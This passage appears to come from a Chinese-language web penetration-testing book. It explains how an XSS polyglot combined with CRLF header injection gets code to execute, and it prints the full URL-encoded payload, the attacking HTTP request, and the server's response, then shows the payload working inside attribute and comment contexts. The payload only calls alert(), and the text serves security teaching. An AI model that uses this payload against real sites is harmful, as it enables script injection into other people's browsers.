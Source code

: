 如果我们将多语言负载作为用户名传入并记住，HTTP 响应头会被更改，正文将包含攻击者控制的数据，如下所示：

```
GET /save.php?remember=**jaVasCript%3A%2F*-%2F*%60%2F*%60%2F*'%2F*%22%2F**%2F(%2F*%20*%2FoNcliCk%3Dalert()%20)%2F%2F%0D%0A%0d%0a%2F%2F%3C%2FstYle%2F%3C%2FtitLe%2F%3C%2FteXtarEa%2F%3C%2FscRipt%2F--!%3E%3CsVg%2F%3CsVg%2FoNloAd%3Dalert()%2F%2F%3E%3E** HTTP/1.1
Host: www.cb2.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gecko/20100101 Firefox/45.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
```

服务器的响应如下：

```
HTTP/1.1 200 OK
Cache-Control: private
Content-Type: text/html; charset=utf-8
Server: nginx/1.8.1
Set-Cookie: remember_me=**jaVasCript**:/*-/*'/*\'/*'/*"/**/(/* */**oNcliCk=alert()** )//

**//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e**
Connection: close
Username saved!
```

响应有些被篡改，但我们确实实现了代码执行。URL 编码的回车字符`%0D%0A%0d%0a`被解释为 HTTP 响应的一部分。在 HTTP 协议中，两个回车和换行符表示头部的结束，后续的任何内容都将被浏览器渲染为页面的一部分。

## 相同负载，不同上下文

还有许多其他上下文可以使这个多语言代码成功执行代码。

如果多语言负载反射到用户名输入框的`value`属性中，浏览器对代码的解释清楚地显示了一个损坏的输入字段和一个恶意的`<svg>`元素。负载处理前的 HTML 代码如下所示：

```
<input type="text" name="username" value="[payload]">
```

该图显示了浏览器在处理负载后如何查看 HTML 代码：

![相同负载，不同上下文](img/B09238_02_31.jpg)

图 2.31：反射型 XSS 负载

如果多语言负载反射到 HTML 注释中，它也会执行代码，如`<!-- Comment! [payload] -->`。

该负载包含注释结束指示符`-->`，这使得浏览器将其余文本解释为 HTML 代码。再次，`<svg>`元素的`onload`属性将执行我们的任意代码。
